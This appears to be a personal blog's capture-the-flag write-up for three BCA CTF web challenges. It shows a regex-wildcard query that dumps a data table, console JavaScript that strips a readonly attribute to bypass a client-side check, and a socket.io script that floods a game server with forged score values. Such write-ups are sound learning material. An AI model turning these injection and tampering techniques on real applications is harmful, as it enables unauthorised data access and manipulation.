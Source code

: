 ```yaml
---
layout: post
title: "The Summer of Challs: Week 5"
date: 2024-06-016
categories: CTFs
---
```


This week, I tried a bunch of web challenges from BCA CTF. Here were the ones I solved:

## NOSQL

Upon opening the page, we simply see the message: "Not a valid query : (". 

![NoSQL](/assets/NoSQL.jpg)

Based on the title and challenge description, I knew that I had to do some kind of NoSQL injection. I read the source code to figure out how the application was set up. 

Essentailly, all the lines of a file called 'table.txt' are read into a variable. The app then checks what we send through this part of the code:

```Javascript
app.get('/', (req, res) => {
    if (!req.query.name) {
        res.send("Not a valid query :(")
        return;
    }
    let goodLines = []
    text.forEach( line => {
        if (line.match('^'+req.query.name+'$')) {
            goodLines.push(line)
        }
    });
    res.json({"rtnValues":goodLines})
})
```

It returned "Not a valid query : (" because we didn't put a name parameter in the query string. Once we do, the app loops through the elements of the array that stores the text file lines, and uses a regex expression to match whatever we inputted. Any matches are pushed to a new array, and returned to the front end where the user can supposedly see it. 
 
I reasoned that I needed to make some sort of query that would leak this table, and then make a query according to what was shown in another part of the source code to get the flag:

```JS
app.get('/:id/:firstName/:lastName', (req, res) => {
    // Implementation not shown
    res.send("FLAG")
})
```

In order to make a query that returned the whole table, whatever we passed had to return a match for any of the names. This means we need to bypass the regex check somehow. I did this with the wildcard `.*` which matches anything in this given regex expression. I made a query like this: `url/?name=.*`, and the server returned this:

![NoSql](/assets/%20noSQLNames.jpg)

The last element in this returned array is "Flag Holder", which is obviously the user we need to query for the flag. I copied the array into the console and checked for its length, which was 51. I thought that the user was of ID 50, because I assumed the counting started from 0. This however didn't work, so the IDs must have been counted from 1. 

I then made this request: `url/51/Flag/Holder`, and got the flag:

![NoSql](/assets/NoSQLFlag.jpg)

## PHONE NUMBER

![PhoneNumber](/assets/PhoneNumber.JPG)

We are told to enter our phone number, but can't type anything in. Instead, we have to roll dice, add and subtract the values from these dice, and add the resulting value, one digit at a time. The phone number we need to enter, given by the challenge, is 1234567890. 

The frontend code (they used inline scripting) ensures that we can't actually enter the phone number through this long dice method because anytime we roll snake eyes (two 1s), it will reset the input. And, if at any point, we are at "123456789", it will make sure we roll snake eyes before we can complete the number.

We can't type anything in because they have added a "readonly" attribute to the input box. When we hit submit, it sends our number to a /flag endpoint in the website, where it will return incorrect because it is impossible to send the full number. 

I actually solved this in the console. First, I cloned the input element and removed the readOnly attribute:

```Javascript
var inputField = document.getElementById('input');

function replaceInputElement(element) {
    var newElement = element.cloneNode(true);
    element.parentNode.replaceChild(newElement, element);
    return newElement;
}

inputField = replaceInputElement(inputField);
inputField.removeAttribute('readonly');
```

Then, I wrote a new submit function to make sure we were submitting from our new element:

```Javascript
async function submit() {
    var inputField = document.getElementById('input'); // Ensure this is the updated input field

    if (!inputField.value) {
        alert("Please enter a phone number.");
        return;
    }

    var c = confirm("Is " + inputField.value + " the correct phone number?");
    if (!c) return;

    await fetch('/flag', {
        method: "POST",
        body: inputField.value
    }).then((res) => res.text()).then((text) => text.length !== 0 ? document.body.innerHTML = text : alert("Sorry, incorrect."));
```

After running this code, I could type in the input box. From there, I just typed the phone number, hit submit, and got the flag: 

![Phone Number](/assets/PhoneNumberFlag.jpg)

## COOKIE CLICKER

![Cookie Clicker](/assets/CookieClicker.jpg)

The webapp here is basically a picture of a cookie. We can click it which increments a counter, and in order to get the flag, we have to click it 1e20 times. I don't think even the best cookie clicker players can get that manually.

The server used a websocket and some weird calcuations with exponents and Math.random() to make sure that the client is synchronous with it. Essentially, this made it hard for us to just make a script that made many requests. 

However, this is basically what I ended up doing: writing a script that connected to the websocket, and sent it massive numbers thousands of times. Due to the insychronous nature of both ends using Math.Random(), there were some delays. However, I did get this script to work: 

```Javascript
const io = require('socket.io-client');
const socket = io('http://challs.bcactf.com:31386'); 

socket.on('connect', () => {
    console.log('Connected to the server');
    
    let totalClicks = 1000000;
    let currentValue = 0;

    for (let i = 0; i < totalClicks; i++) {
        let clickData = JSON.stringify({
            value: currentValue,
            power: Number.MAX_SAFE_INTEGER * Number.MAX_SAFE_INTEGER
        });

        socket.emit('click', clickData);
        currentValue += Math.floor(Math.random() * 1000000) + 1;


        socket.on('recievedScore', (msg) => {
            let data = JSON.parse(msg);
            console.log(`Current Score: ${data.value}`);
            console.log('clickCount: ' + i)
        });

        socket.on('error', (err) => {
            console.log(`Error: ${err}`);
        });

        if (currentValue > 1e20) {
            console.log('1e20 cookies');
            break;
        }
    }
});

socket.on('disconnect', () => {
    console.log('Disconnected from the server');
});
```

I ran it and got the flag in the terminal:


![Cookie Clicker](/assets/CookieClickerFlag.jpg)

I'm not sure if this was the most efficient or intended way of solving this, but it got me the flag!

I would say that these challenges weren't exactly my favorite, but they helped iron out javascript skills a bit. The web grind continues this week! 



